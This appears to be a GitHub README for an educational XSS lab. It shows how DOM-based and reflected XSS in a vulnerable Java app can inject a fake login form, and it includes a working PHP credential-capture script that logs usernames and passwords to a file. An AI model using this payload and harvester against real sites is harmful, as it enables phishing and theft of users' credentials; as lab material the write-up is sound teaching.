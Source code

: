 # xss-demo-vulnerable-app

# XSS Demo: Vulnerable Java Web App + Credential Capture (Educational Lab)

This project demonstrates how **DOM-based and reflected Cross-Site Scripting (XSS)** vulnerabilities can be chained together to simulate a **phishing attack** using a vulnerable Java Spring web application and a credential-capturing PHP backend.

> ⚠️ **This project is intended solely for educational, ethical, and testing purposes. Do not deploy or use in any environment you do not own or have permission to test.**

---

## 🎯 Objective

To simulate how an attacker could:
1. Exploit a DOM-based and reflected XSS vulnerability.
2. Inject a fake login form into a web page.
3. Capture submitted credentials using a local PHP server.

---


I Started the webapp which is hosted in my localhost (Tomcat)


![1](https://github.com/user-attachments/assets/b31668e0-8e4f-45aa-8e8d-9cd6472808e8)


---

Next, i inerted a DOM based XSS script in the query 

![3](https://github.com/user-attachments/assets/0e58c723-c4f5-4fc5-9b75-03e9dd928f97)


Payload

![2](https://github.com/user-attachments/assets/9c7d843d-260e-42c5-9a17-9956de85868a)

## What this does

"><script>alert(...) — DOM-XSS popup

<form action=...> — Reflection-XSS injects phishing form

Form submits to attacker-controlled site

---

The user will get popup prompting the user to log in first

![4](https://github.com/user-attachments/assets/c69b1a2e-450e-4671-a7b7-158655d13622)


---

from the injected Payload it ask the user to enter the username and password

![5](https://github.com/user-attachments/assets/680fb121-c1f9-44f4-acd2-a7703e54d0e6)


---

from the Attackers side I created a custom PHP Script (capture.php) which grabs the cred from the user:
```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = htmlspecialchars($_POST["username"]);
    $password = htmlspecialchars($_POST["password"]);

    // You can log this to a file instead of printing it
    echo "<h2>Captured Credentials</h2>";
    echo "Username: " . $username . "<br>";
    echo "Password: " . $password . "<br>";

    // Optionally write to file
    $log = fopen("creds.txt", "a");
    fwrite($log, "Username: $username | Password: $password\n");
    fclose($log);
}
?>













